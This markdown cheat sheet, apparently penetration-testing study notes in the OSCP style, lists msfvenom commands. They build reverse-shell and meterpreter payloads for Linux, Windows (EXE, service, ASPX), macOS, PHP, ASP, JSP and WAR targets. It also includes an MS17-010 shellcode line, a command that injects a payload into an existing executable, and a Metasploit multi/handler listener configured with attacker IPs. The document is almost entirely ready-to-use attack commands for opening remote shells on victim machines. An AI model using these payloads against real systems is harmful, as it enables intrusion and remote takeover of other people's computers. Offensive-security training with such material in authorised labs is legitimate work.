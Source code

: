 https://github.com/tagnullde/OSCP/blob/master/oscp-cheatsheet.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

# msfvenom
- serivce: all
- tactics: weaponization

## Linux ELF binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

## Windows EXE binary 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

MS17-010
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.124 LPORT=4445

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.239.155 LPORT=4444 -f aspx -o pwn.aspx
### 32 Bit
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell32.exe

### 64Bit
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell64.exe
    
## Windows Service
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe-service > shell-service.exe
    
## Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
    
## PHP 
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php

> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
    
## ASP 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp 

## JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
    
## WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    
## Inject payload into an existing exe file
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>

## dep bypass payload
windows/meterpreter/reverse_nonx_tcp

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 
